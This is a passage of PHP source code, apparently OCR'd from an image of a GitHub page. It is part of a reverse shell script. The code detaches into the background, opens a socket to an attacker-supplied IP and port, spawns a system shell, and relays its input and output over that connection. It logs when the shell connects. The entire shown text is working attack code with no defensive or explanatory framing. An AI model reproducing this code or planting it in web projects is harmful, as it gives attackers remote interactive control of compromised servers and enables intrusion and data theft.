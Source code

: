 ```php
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");

umask(0);

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	if (in_array($pipes[1], $read_a)) {
```
